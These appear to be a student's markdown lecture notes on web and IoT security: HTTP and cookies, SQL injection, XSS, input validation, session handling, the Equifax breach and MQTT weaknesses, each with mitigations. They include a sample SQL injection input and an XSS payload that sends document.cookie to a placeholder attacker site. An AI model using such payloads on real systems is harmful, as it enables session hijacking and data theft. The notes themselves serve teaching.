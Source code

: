 # Web and IoT Security

## Security in the web

### Basics of a Web Application

A web application is made on the client/server model: they send each other messages in a *request-response messaging pattern*. We remember that all client-server protocol operate in the *Application Layer*.

**HTTP** stands for Hyper Text Transfer Protocol and it is a *stateless, application-level protocol* for exchanging information between systems. It is connectionless, media independent and stateless.

```http
HTTP/1.0 200 OK
Date: Sun, 21 Apr 1996 02:20:42 GMT
Server: Google
Connection: keep-alive
Content-Type: text/html
Set-Cookie: ...
Content-Length: 2543
<html>...</html>
```

*Up here you can see HTTP version, status code, headers, cookies and the body*

We can add a **state** to HTTP thanks to **Cookies**: cookies are small piece of data sent together with the request to remember information (ie. a shopping cart) or record user's browser activity. 

Cookies are usually used for **authentication** to know whether the user is logged in or not. However security vulnerabilities might allow cookies' data to be read by a hacker wich than can gain access to user data or the website. They also are a **privacy concern** because of tracking cookies.

Because cookies are exchanged in clear you should use https.

### Secure a Web Application

Creating a secure Web application is not an easy task because many security flaws can happen at many levels (db, sevrer, app, network). Every layer must be examined.

Example of vulnerabilities are:

- Application layer
  
  - SQL Injection
  
  - Cross-Site-Scripting (XSS)
  
  - CSFR, Broken Auth, Unvalidated Input

- Server Layer
  
  - DoS
  
  - OS Explitation

- Network Layer
  
  - MITM
  
  - DNS Attack
  
  - Packet-Sniffing

- User Layer
  
  - Phishing
  
  - Key Logging
  
  - Malware

A web application should be able to grant: **Authentication, Authorization, Confidentiality, Integrity, Non-Repudiation**.

Goals of **Web Application Security** (a branch of Information Security) is to secure web and mobile apps and safen browsing the web

### SQL Injection

A SQL injection is  a code injection technique used to attack data-drive applications. It consist in inserting into a non-sanitized field SQL statements which will be executed.

```sql
SELECT * FROM Users
WHERE username = 'admin';-- AND password = 'pass123'
```

*In the example above the input field is ``'admin';--`` and the password requirement in the SQL query is ignored as a comment returning the view of an admin*.

Other types of SQL injection use wildcards, `... OR 1=1` always true statements. Basically a SQL injection is present when **dynamic queries** are built.

> Case Study: CardSystem (in June 2005) was a credit card payment processing company. A SQL injection exposed 43M credit cards.

**Mitigations:**

- Input sanitization

- Principle of The Least Priviledge

### Cross-Site Scripting Attacks (XSS)

Cross-site scripting (XSS) is a security vulnerability were attackers are able to inject client-side scripts into a user visited website. 

```html
http://vulnerable.com/welcome.php?name=
<script>
window.open ("http://badsite.com/collect.php?cookie= "+document.cookie)
</script>
```

*The idea is to forward the cookie of the user to the attacker site so that it can exploit it (reflected attack)*

Another way of doing XSS is through forms, loading malicious code on the server and (*stored attack*).

With XSS the hacker can impersonate the victim.

**Mitigations:** 

- Filter input parameters (better to use positive filtering)

### Other Attacks

**Unvalidated Input**

```html
<form action="page.asp" method="post">
    <input type="hidden" name="price" value="20.00">
    <input type="submit">
</form>
```

*A user could easily change the value client side and than send the request*

Always validate **server side**!

**Broken Authentication**

Common combination of usernames and passwords are broken.

Causes may be insecure storage, weak algorithm, faulty session management or passwords recovery.

Mitigations are to disallow weak passwords, use HTTPS and MFA, salt and has passwords

**Session Management**

Session information is equally important to protect. Poor management can leed to CSFR (Cross-Site Request Forgery), spoofing and more. 

MItigation consist in implementing strict timeouts and ensure unique and renewed Session IDs.

### Access Control in Web Application

> Case Study: The Equifax Breach
> 
> It was a **command injection attack** where hackers could execute arbitrary commands in Apache Struts. Patches were available **but not applied**.

*Security best practices dictate that this user have as little privilege as possible 
on the server itself, since security vulnerabilities in web applications and web 
servers are so commonly exploited.*

### Conclusion

It is a good idea to use automated soltions for analysis and enforcement of security policies (ie. tools, firewalls, Cloudflare).

**The OWASP Top 10** 

[OWASP Top 10:2021](https://owasp.org/Top10/)

![](/home/samu/Documents/Markdown/images/ComputerAndNetworkSecurity/OWASP.png)

## IoT Security

### Basics of IoT Applications

They usually use a **publish-subscribe** communication. It is a many-to-many communication model. Parties doesn't need to know each other and act at the same time. Synchronization is not needed.

![](/home/samu/.config/marktext/images/2022-12-13-23-59-23-image.png)

*Subjects are publishers, subscribers, a broker and a Notification service*

A more advanced model uses **topics** so that subscribers listen to "categories". Topics can be organized by **hierarchy**.

The **Event Notification System** can be centralized or distributed.

### MQTT

MQTT stands for Message Queue Telemetry Transport. It follows the publisher/subscriber pattern, has hierarchy, simple packets and runs over TCP (*not encrypted by default*)

It is designed to minimise network bandwith, run on small resources and be sort of reliable.

By default all data are in clear; however encryption is possible using **TLS**. The side effect is a significant network overhead. Additional security measures can added.

**Authentication** is possible through the `CONNECT` packet.

Security flaws rounds down to:

- Brute-force Attacks (no limit on number of attempts)

- Abuse of Wildcards in topic subscriptions (possibly system packets)
